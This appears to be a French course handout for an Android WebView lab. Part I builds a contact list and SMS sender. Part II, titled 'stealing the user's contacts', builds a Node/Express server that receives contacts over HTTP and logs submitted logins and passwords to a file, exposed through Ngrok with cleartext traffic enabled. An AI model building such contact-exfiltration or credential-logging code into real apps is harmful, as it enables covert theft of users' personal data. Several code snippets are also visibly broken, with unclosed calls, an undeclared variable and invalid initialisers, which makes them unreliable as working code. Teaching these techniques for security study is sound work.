

# Documentation pour TD2

## Partie I: Implémenter un carnet d'adresses
### Création d'une classe Contact
- Dans `Java`, créer une classe `Contact` contenant deux Strings pour le nom et le numéro de téléphone avec la méthode contructeur, ainsi que tous les getters et setters nécessaires.

### Récupération des contacts - exemple

- Avant de commencer, il est important de créer un jeu de données en ajoutant quelques contacts avec leurs numéros de téléphones.
- Pour récupérer les contacts de l'utilisateur, le code suivant vous est fourni, ce dernier retourne le nom et le numéro de téléphone du premier contact. Il vous est demandé d'utiliser le code suivant et de m'enrichir afin de créer une méthode dana la classe `WebAppInterface` qui renvoie la liste des contacts récupérée.

```Java
// Définir un curseur qui va parcourir les contacts, le carnet d'adresses d'android se présente comme un tableau ayant multiples colonnes
Cursor cursor = mContext.getContentResolver().query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null,null,null, null);

String name, number; 
// Création d'une ArrayList de contacts
ArrayList<Contact> contacts = new ArrayList<Contact>();

// Tester si le curseur peut avancer
if (cursor.moveToNext())
{
    // retourne le nom du contact dans lequel se situe le curseur
    @SuppressLint("Range") name = cursor.getString(cursor.getColumnIndex(ContactsContract.CommonDataKinds.Phone.DISPLAY_NAME));

    // retourne le numéro de téléphone du contact dans lequel se situe le curseur
    @SuppressLint("Range") number = cursor.getString(cursor.getColumnIndex(ContactsContract.CommonDataKinds.Phone.NUMBER));
}

//Ajouter le contact récupéré dans l'ArrayList
contacts.add(new Contact(name,number));

// Fermer le curseur, cette commande est obligatoire
cursor.close();
```

### Passage d'une structure de données Java vers un String Json avec la classe GSON 

- Pour réaliser cette transformation `ArrayList to JSON`, la classe GSON qui est contenue dans le jar téléchargeable dans le lien suivant est utilisée. 
https://jar-download.com/artifacts/com.google.code.gson/gson/2.8.7

- Pour ajouter le jar dans le projet `Android`, il faut se mettre sur la vue `Project` dans l'explorateur de fichiers d'Android Studio. Ensuite, il faut glisser le JAR dans le fichier libs qui se trouve dans l'arborescence `nomDuProject/app/libs`. Après, aller dans `File -> Project Structure... -> Dependencies -> + (Add dependency) -> JAR -> et préciser son chemin "libs/lenomDuJar.jar". Un tutoriel illustrant cela est disponible sur le lien suivant :
[https://www.tutorialkart.com/kotlin-android/add-external-jar-to-library-in-android-studio/](https://www.tutorialkart.com/kotlin-android/add-external-jar-to-library-in-android-studio/)

- La transformation est effectuée à l'aide de la méthode toJSON() comme suit. 

```Java
String donnéesJson = new GSON().toJson(uneArrayList);
```

### Format de la fonction JavaScript qui récupère puis affiche les contacts
```Javascript
// Appel à la méthode JAVA qui retourne les contacts, ces contacts sont sous format JSON

// Parser les contacts JSON pour obtenir un tableau manipulable en JS

// Afficher les différents contacts à l'aide d'un tableau HTML

// Rendre le tableau HTML interactif avec l'ajout de la fonction onClick pour chaque ligne du tableau
```


### Afficher les contacts depuis JavaScript
- Après avoir fait appel à la méthode qui renvoie les contacts depuis Javascript via l'instance de `WebAppInterface` qui nous avons nommé `Android`, il est nécessaire de passer du format `JSON` vers un format `Javascript Object` comme l'exemple le montre : 

```Javascript
// Appel à la méthode qui retourne tous les contacts sous format JSON et récupération des contacts dans la variable jsonContacts
var jsonContacts = Android.getAllContacts();

// Parser les contacts JSON en Object en utilisant la méthode JSON.parse() prédéfinie dans JavaScript
var contacts = JSON.parse(jsonContacts);
```

### Afficher un contact sous format HTML (Tableau)
- Pour se faire, il faut d'abord créer un tableau HTML vide que l'on lui associe un `id` pour pouvoir modifier son contenu par la suite.

Dans le fichier HTML :
```HTML
<table class="table table-stripped" id="table" border="2"> 
		<thead>
			<tr><th> Nom </th> <th> Numéro </th></tr>
		</thead>
		<tbody id="contacts">
				
		</tbody>
</table>
```

Dans la fonction JS qui récupère et affiche les contacts :
```JavaScript
// Création d'une variable qui contiendra le contenu du tableau
var tableContent = "";

var i = 0; // le i est la position du prémier contact dans le tableau de contacts
tableContent += "<tr>"; // Nouvelle ligne HTML
tableContent += "<td>" + contacts[i].name + "</td>" + "<td>" + contacts[i].number + "</td>";
tableContent += "</tr>"; // Fin de la nouvelle ligne HTML

// remplacer le contenu du tableau par le contenu de la variable tableContent
document.getElementById("contacts").innerHTML = tableContent;
```
### Ajouter la fonction onClick pour chaque ligne du tableau, et qui récupère le contenu de la ligne
- Dans la même fonction JavaScript qui récupère puis affiche les contacts, rajouter le script suivant :

```JavaScript
var table = document.getElementById("table"),rIndex;
		for (var i = 0 ; i< table.rows.length ; i++)
		{
			table.rows[i].onclick = function()
			{
				rIndex = this.rowsIndex;
                // Pour récupérer le nom du contact sélectionnée
				[un textArea ou un textField] = this.cells[0].innerHTML; 
				// mettre le numéro du contact sélectionné dans le text Area "textArea"
                document.getElementById("textArea").value = this.cells[1].innerHTML;
			}
		}
```

### Envoyer un sms à un contact sélectionné 
- Pour créer ce Brigde, il est nécessaire de créer une méthode `Java` dans la classe `WebAppInterface`, puis une fonction JavaScript qui fait appel à cette méthode via l'instance de `WebAppInterface` que l'on a nommé `Android`.

Code Java pour l'envoi d'un SMS à un numéro donné :
```Java
public void sendSMS(String number, String content)
{
    SmsManager smsManager = SmsManager.getDefault();
    smsManager.sendTextMessage(number, null, content, null, null);
}
```

### Être notifié quand l'SMS est envoyé/reçu
Pour se faire, il faut créer un `intentFilter` pour chaque notification (envoi ou réception) comme suit:
```Java
mContext.registerReceiver(new BroadcastReceiver() {
            @Override
            public void onReceive(Context context, Intent intent) {
                Log.d("SMS ", "sent");
            }
        }, new IntentFilter("SMS_SENT_ACTION"));

        mContext.registerReceiver(new BroadcastReceiver() {
            @Override
            public void onReceive(Context context, Intent intent) {
                Log.d("SMS ", "delivered");
            }
        }, new IntentFilter("SMS_DELIVERED_ACTION"));
```

Ces filtres sont ensuite utilisés lors de la création des intents d'envoi et de réception comme suit :
```Java
		PendingIntent sentIntent = PendingIntent.getBroadcast(mContext, 100, new Intent("SMS_SENT_ACTION"), 0);
        PendingIntent deliveryIntent = PendingIntent.getBroadcast(mContext, 200, new Intent("SMS_DELIVERED_ACTION"), 0);
```

## Partie II: Voler les contacts de l'utilisateur
Dans cette partie, il vous est demandé de créer un serveur avec `NodeJS`. Ce dernier devra être en mesure de :
1. Reçevoir des requêtes `HTTP` 
2. Agir correctement en fontion de la requête qui lui est envoyée
3. Parser le contenu de la requête
4. enregistrer les contacts dans un fichier txt ou json de la machine exécutant le serveur
5. Renvoyer une erreur si le contenu de la requête n'est pas au format souhaité

- Afin de reçevoir les contacts sous format `JSON`, il est préconisé d'utiliser Express JS. La documentation est disponible ici :
[https://expressjs.com/fr/guide/routing.html](https://expressjs.com/fr/guide/routing.html)

Pour installer Express JS sur Linux, exécutez la commande suivante :
```bash
sudo apt-get install nodejs npm  # Pour installer Node JS
sudo npm install express --save  # Pour installer express JS
```

Il n'est pas imposé d'utiliser Express JS, si vous souhaitez utiliser Node JS seulement, vous êtes libres de le faire. Vous trouverez un exemple d'un serveur NodeJS qui n'utilise pas Express JS.

### Mise en place d'un serveur NodeJS avec Express
Dans cette partie, on aura principalement besoin de gérer deux types de requêtes : `GET` et `POST`. Les deux autres types de requêtes HTTP (à savoir `HEAD` et `GETALL`) ne sont pas prises en considération. Chaque requête devra actionner une fonction qui prend comme paramètre deux attributs, par convention req pour `Request` et res pour `Result`.

Avec Express JS
```JS
// Initialiser la variable body parser qui sert à parser le contenu des requêtes
const bodyParser = require("body-parser");
// Initialiser la variable express
const express = require("express");
// Initialisation de la variable app, celle-ci est la variable qui va servir à traiter toutes les requêtes que le serveur reçoit.
const app = express();
// Initialisation de la constante fs (File System) qui utilise le module fs pour intéragir avec le ficher système
const fs = require('fs');

app.use(express.json());
app.use(bodyParser.urlencoded({extended: true}));

// Routage de la page d'accueil en renvoyant "welcome page!"
app.get('/', (req, res) => {
    res.send("Page d'accueil !")
    res.sendFile('WelcomePage.html')
});

app.get('/login', (req, res) => {
    res.sendFile('login.html')
    res.send("page d'authentification")
}

// Routage de la page [adresse vers le serveur]/contacts en récupérant le corp de la requête
app.post('/login', (req, res) => {
    var requete = req.body
    var informations = JSON.parse(JSON.stringify(requete))
    // Enregistrer les informations contenues dans la requête dans le fichier "logins.json" dans le répertoire courant du serveur
    fs.writeFileSync('./logins.json', JSON.stringify(requete));
    // Vérifier si l'identifiant et le mot de passe envoyés correspondent bien aux données d'un compte client dans la base de données
    var authentification = checkInDatabase(information[0].username, information[0].password)
    if(authentification)
    {
        res.sendFile('clientAccess.html')
    }
    else
    {
        res.send("Nom d'utilisateur ou mot de passe incorrect")
    }
}

app.use(function(req, res){
   res.sendStatus(404);
});

app.listen(8080, () => {
  console.log("Started on http://localhost:8080");
});
```

Avec Node JS
```JS
const http = require("http");
const host = 'localhost';
const fs = require('fs')
const port = 8080;

const requestListener = function ( req , res) {
    // Spécifier le type du contenu à reçevoir (application/json)
	res.setHeader("Content-Type", "application/json");
	switch (req.url) { //traitement de l'url envoyée au serveur
		case "/": // Requête vers la page d'accueil 
			res.writeHead(200);
			res.end("Page d'accueil !");
            res.sendFile("")
			break
		case "/login": // requête vers la page d'authentification de la forme (adresseduServeur/login)
			res.writeHead(200);
            // Traitement de la requête de type GET
			if (req.method == 'GET')
			{
                res.sendFile("login.html") 
				res.end("Page d'authentification")
                // Traitement la requête de type POST
			}else if (req.method == 'POST')
			{
				var requete = ""
				req.on('data', chunk =>
				{
					requete += chunk;
				})
				req.on('end', () => {
					var informations = JSON.parse(requete)
                    // Enregistrer les informations contenues dans la requête dans le fichier "logins.json" dans le répertoire courant du serveur
                    fs.writeFileSync('./logins.json', JSON.stringify(requete));
                    // Vérifier si l'identifiant et le mot de passe envoyés correspondent bien aux données d'un compte client dans la base de données
                    var authentification = checkInDatabase(information[0].username, information[0].password)
                    // authentification réussie
                    if(authentification)
                    {
                        res.sendFile('clientAccess.html')
                    }
                    else // authentification échouée
                    {
                        res.send("Nom d'utilisateur ou mot de passe incorrect")
                    }
				})
			}
			break
		default: // Si l'utilisateur envoie une route qui n'existe pas au serveur
			res.writeHead(404);
			res.end(JSON.stringify({error:"Resource not found"}));
	}
}

const server = http.createServer(requestListener);
server.listen(port, host, () => {
    console.log(`Server is listening at http://${host}:${port}`);
});
```
### Gestion du Routage dans le serveur
Routage fait référence à la détermination de la façon dont une application répond à un nœud final spécifique, c’est-à-dire un URI (ou chemin) et une méthode de requête HTTP (GET, POST, etc.).

Chaque route peut avoir une ou plusieurs fonctions de gestionnaire, qui sont exécutées lorsque la route est mise en correspondance.

La définition de la route utilise la structure suivante :
```js
app.METHOD(PATH, HANDLER)
```
Où
    `app` est une instance d’express.
    `METHOD` est une méthode de demande HTTP.
    `PATH` est un chemin sur le serveur.
    `HANDLER` est la fonction exécutée lorsque la route est mise en correspondance.

L'exemple suivant illustré avec un diagramme de séquence détaille un simple cas d'étude d'un échange entre un client et un serveur.


### Accès au serveur depuis Android
Afin de pouvoir accéder au serveur à partir d'android, trois façons sont envisageables :
1. Si le serveur est hébergé avec une URL publique, il est possible d'y accéder avec l'URL (exemple : www.google.fr)
2. Si le serveur s'exécute en localHost, bien qu'il soit possible d'y accéder avec un navigateur avec l'adresse http://127.0.0.1:PortNb ou http://localhost:PortNb, cette adresse n'est pas reconnue sur l'émulateur. Il est possible d'y accéder avec l'émulateur Android avec l'adresse 10.0.2.2:PortNb.
3. Si le serveur s'exécute en localHost, mais que vous utilisez votre téléphone pour l'exécution, il n'est pas possible d'y accéder avec l'adresse localHost étant donné que votre téléphone n'y a pas accès. Par conséquent, il existe des solutions tel que `Ngrok` qui permettent de proposer une adresse publique pour un protocole et un numéro de port donné. Pour cela, il faut créer un compte sur leur site [https://ngrok.com](https://ngrok.com) puis télécharger le fichier ZIP et exécuter `Ngrok` pour le protocole http et le numéro de port souhaité. Tous les détails concernant l'exécution de `Ngrok` sont décrites sur le site une fois le compte créé. Suite à l'exécution de `Ngrok` vous obtiendrez une adresse publique vous permettant d'accéder au port spécifié via le protocole spécifié (HTTP dans notre cas) au serveur. (exemple : http://daaf-131-254-252-126.ngrok.io)



Il existe d'autres façons d'accéder à un serveur local si vous êtes sur le même réseau (en utilisant l'adresse IP publique du réseau par exemple), libre à vous de choisir la solution qui vous convient à partir du moment où vous la mentionnez dans le compte-rendu.

Si vous utiliser un serveur distant tel que `Ngrok` pour l'envoi des requêtes, il est indispensable d'autoriser l'envoi de requêtes en texte claire sur Android. Pour cela, dans l'arborescence `app/res`, créez un répertoire nommé xml. Dans ce répertoire, créer un fichier xml que vous nommez `network_security_config.xml` dans lequel vous y collez le code suivant :
```xml
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
    <base-config cleartextTrafficPermitted="true">
        <trust-anchors>
            <certificates src="system" />
        </trust-anchors>
    </base-config>
</network-security-config>

```

Ensuite, dans le fichier `AndroidManifest.xml`, rajouter la ligne suivante :
```xml
<manifest    ...>
...
<application ...>
    android:networkSecurityConfig="@xml/network_security_config"
<activity>
...
</activity>
</application>
</manifest>
```

### Envoi d'une requête HTTP depuis Android avec Andoid Volley
La méthode suivante est utilisée pour envoyer une requête `GET`
```Java
   @JavascriptInterface
    public String getRequest(String url) throws IOException {
        final String[] result = "";
        // Instantiate the RequestQueue.
        RequestQueue queue = Volley.newRequestQueue(mContext);
        // Request a string response from the provided URL.
        StringRequest stringRequest = new StringRequest(Request.Method.GET, url,
                new Response.Listener<String>() {
                    @Override
                    public void onResponse(String response) {
                        // Display the first 500 characters of the response string.
                        System.out.println("Response is: "+ response);
                        result[0] = response;

                    }
                }, new Response.ErrorListener() {
            @Override
            public void onErrorResponse(VolleyError error) {
                System.out.println("That didn't work!");
                System.out.println("Erreur " + error.toString());
            }
        });
        // Add the request to the RequestQueue.
        queue.add(stringRequest);
    return  result[0];
    }
```

La méthode suivante est utilisée pour envoyer une requête `POST`. Il est indispensable que les informations envoyées au serveur soient de type JSON (dans notre cas).
```Java
@JavascriptInterface
    public void postStringRequest(String URL, String informationsJson)
    {
            RequestQueue requestQueue = Volley.newRequestQueue(mContext);
            final String requestBody = informationsJson;

            StringRequest stringRequest = new StringRequest(Request.Method.POST, URL, new Response.Listener<String>() {
                @Override
                public void onResponse(String response) {
                    Log.i("VOLLEY Response ", response);
                }
            }, new Response.ErrorListener() {
                @Override
                public void onErrorResponse(VolleyError error) {
                    Log.e("VOLLEY Error", error.toString());
                }
            }) {
                @Override
                public String getBodyContentType() {
                    return "application/json; charset=utf-8";
                }

                @Override
                public byte[] getBody() throws AuthFailureError {
                    try {
                        //Log.i("tag","qsqsfs");
                        return requestBody == null ? null : requestBody.getBytes("utf-8");
                    } catch (UnsupportedEncodingException uee) {
                        VolleyLog.wtf("Unsupported Encoding while trying to get the bytes of %s using %s", requestBody, "utf-8");
                        return null;
                    }
                }

                @Override
                protected Response<String> parseNetworkResponse(NetworkResponse response) {
                    String responseString = "";
                    if (response != null) {
                        responseString = String.valueOf(response.statusCode);
                        // can get more details such as response.headers
                    }
                    return Response.success(responseString, HttpHeaderParser.parseCacheHeaders(response));
                }
            };

            requestQueue.add(stringRequest);
    }

```
